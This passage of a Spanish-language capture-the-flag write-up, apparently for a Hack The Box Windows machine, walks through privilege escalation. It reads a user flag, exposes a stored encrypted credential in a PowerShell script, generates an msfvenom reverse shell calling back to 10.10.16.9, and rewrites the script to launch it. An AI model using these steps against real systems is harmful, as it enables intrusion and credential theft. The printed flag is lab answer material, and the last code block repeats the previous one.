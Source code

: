 ```null
PS C:\Windows\System32\spool\drivers\color> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { type C:\Users\imonks\Desktop\user.txt }
44065da8f10b75dfb48317e4b3af86d4
```

# Escalada

En el escritorio hay un script en powershell

```null
PS C:\Windows\System32\spool\drivers\color> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { Get-ChildItem C:\Users\imonks\Desktop }


    Directory: C:\Users\imonks\Desktop


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---          3/6/2023  12:05 PM             34 user.txt                           ATSSERVER                         
-a----         1/11/2022   6:04 PM            602 wm.ps1                             ATSSERVER    
```

```null
PS C:\Windows\System32\spool\drivers\color> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { type C:\Users\imonks\Desktop\wm.ps1 }
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Puedo tratar de modificarlo para que ejecute otro comando. En este caso, un binario, ya que por PowerShell no funciona

```null
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -f exe -o shell.exe
```

```null
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }
```

Ejecuto y gano acceso al sistema

```null
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) -Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }
```
